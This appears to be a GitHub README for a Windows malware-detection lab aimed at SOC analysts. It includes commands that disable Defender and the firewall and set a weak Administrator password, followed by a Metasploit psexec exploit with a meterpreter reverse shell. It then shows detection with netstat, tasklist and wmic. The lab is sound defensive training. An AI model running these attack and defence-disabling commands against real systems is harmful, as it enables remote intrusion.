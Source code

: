 # 🪟 Windows Malware Analysis Lab via Metasploit

This lab demonstrates a **realistic malware simulation using Metasploit** and focuses on **detection and analysis techniques within Windows CLI**. It's intended for **SOC analysts**, **incident responders**, and **blue teamers** looking to sharpen their skills in post-exploitation process hunting.

---

## 🧰 Lab Setup

- **Attacker Machine**: Kali Linux
- **Target**: Windows VM (Administrator Access)
- **Tool Used**: Metasploit (psexec module with meterpreter reverse shell)

---

## 🪓 Phase 1: Prepare Windows for Attack

### Disable Defender and Firewall

```powershell
Set-MpPreference -DisableRealtimeMonitoring $true
netsh advfirewall set allprofiles state off
net user Administrator password1234
ipconfig
```

📸 ![Disable Defender](./01_disable_defender.png)

---

## 💥 Phase 2: Attack from Kali using Metasploit

### Setup Exploit and Launch Payload

```bash
msfconsole -q
use exploit/windows/smb/psexec
set PAYLOAD windows/meterpreter/reverse_tcp
set RHOST <Windows_IP>
set SMBUSER Administrator
set SMBPASS password1234
exploit
```

📸 ![Metasploit Attack Setup](./02_msf_attack_setup.png)

---

## 🕵️ Phase 3: Analyze on Windows Machine

### Step 1: Check for Open Connections

```powershell
netstat -naob
```

📸 ![Netstat Connections](./03_netstat_ports.png)

---

### Step 2: Resolve IP to Process ID

```powershell
netstat -f
tasklist /m /fi "pid eq 1476"
```

📸 ![Modules via Tasklist](./04_netstat_pid_modules.png)

---

### Step 3: Dig Deeper with WMIC

```powershell
wmic process where processid=1476 get commandline
wmic process get name,parentprocessid,processid | select-string 1476
```

📸 ![WMIC Process Details](./05_wmic_analysis.jpeg)

---

## 🧠 Key Takeaways

- `netstat -naob` helps detect live reverse shell sessions (e.g., port 4444)
- `tasklist` and `wmic` provide process visibility and help identify injected/malicious activity
- Detection of PowerShell-based malware is possible through **manual PID tracking and command-line tracing**

---

## 👨‍💻 Author

**Venkata Naveen Kumar Prabhuletti**  
_Masters in Cybersecurity Analytics and Operations @ Penn State_  
🔗 [LinkedIn](https://www.linkedin.com/in/naveen-kumar-9b55a0154/)

---

## 📂 Folder Contents

```
Windows_Backdoor_Analysis_Lab/
├── 01_disable_defender.png
├── 02_msf_attack_setup.png
├── 03_netstat_ports.png
├── 04_netstat_pid_modules.png
├── 05_wmic_analysis.jpeg
└── README.md
```

## 📎 License

MIT License
